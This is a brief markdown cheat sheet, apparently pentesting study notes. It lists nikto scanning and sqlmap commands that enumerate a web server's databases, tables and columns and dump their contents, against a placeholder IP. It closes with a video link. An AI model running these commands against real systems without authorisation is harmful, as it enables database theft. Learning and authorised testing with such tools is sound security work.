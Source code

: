 ## nikto
ere obtain phpmyadmin
```console
nikto -h ip
```

## sqlmap
obtain sql info
```console
sqlmap -u "http://ip/all" --current-user --dbs
```

obtain sql database
```console
sqlmap -u "http://ip/all" -D databaseName -tables
```

obtain sql database value
```console
sqlmap -u "http://ip/all" -D databaseName -T nameTable --column
```

```console
sqlmap -u "http://ip/all" -D databaseName -T nameTable --dump
```


PHP and database

https://www.youtube.com/watch?v=chzP5mFdgWs